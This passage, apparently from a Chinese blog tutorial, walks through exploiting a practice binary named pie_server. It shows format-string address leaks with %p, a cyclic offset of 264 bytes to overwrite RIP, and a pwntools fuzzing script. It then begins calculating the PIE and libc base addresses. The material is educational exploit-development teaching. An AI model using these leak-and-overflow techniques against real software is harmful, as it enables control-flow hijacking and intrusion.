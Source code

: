 程序的主函数先调用的enter_name模块，然后才是我们需要测试的地方，运行程序，我们随意泄露一些东西看看
```
%p：跳转到指针地址处，输出内容
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/6c592fb4ea8643659f778841359e0bfc.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/4f779ded745a414b85e0411e69767a5a.png)

然后是测试的字符串

![在这里插入图片描述](https://img-blog.csdnimg.cn/a9001a87fe8346f5a28988780a7bfcff.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/9b389df1cecd4f229b55b5e3951869f6.png)

由于在x86架构里，读取地址是由低到高的，所以这里的字符串是qaacraac，这里我们输入前四个字符就好了
```
cyclic -l qaac
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/c5418144e08d433f818658ab5af2d4e2.png)

说明我们要覆盖rip原本的返回地址并控制，就需要264个垃圾字符+想让程序跳转执行的地址


# FUZZ
我们写一个小脚本，和上一篇文章的那个差不多，从堆栈中泄露值
```
exe = './pie_server' 
elf = context.binary = ELF(exe, checksec=False)   //获取程序详细信息
context.log_level = 'warning'   //去除一些不必要的信息，使输出更简洁
for i in range(100):   //测试100个地址
    try:
        p = process('./pie_server')   //启动程序
        p.sendlineafter(b':', '%{}$p'.format(i).encode())   //发送指定的字符串，将第n个指针打印为字符串
        p.recvuntil(b'Hello ')   //获取程序的输出
        result = p.recvline()
        print(str(i) + ': ' + str(result))  //输出
        p.close()   //关闭程序
    except EOFError:
        pass
```

运行程序，我们要找到即使这个脚本运行很多次也不会变的地址

![在这里插入图片描述](https://img-blog.csdnimg.cn/43ce1cea1ab74a46b2f2cd73ce109fa2.png)

可以看到泄露了很多libc库里的地址，第15个看起来是一个内存地址，我们去gdb里看看

![在这里插入图片描述](https://img-blog.csdnimg.cn/59ab9add90bd4bb29c5bffb789c45996.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/d0de8c1e58d14103b635ab3045294e54.png)


我们用这个地址再减去原来这个地址的偏移量就是程序的基地址
```
程序基地址 = 0x0000555555555224 - 0x0000000000001224
```
有了程序的基地址，我们还需要知道libc库的基地址，这个程序调用了puts函数，我们去libc库里找找看
```
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep puts
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/3f7e94e609a54b958e30e0b88cd4b68c.png)

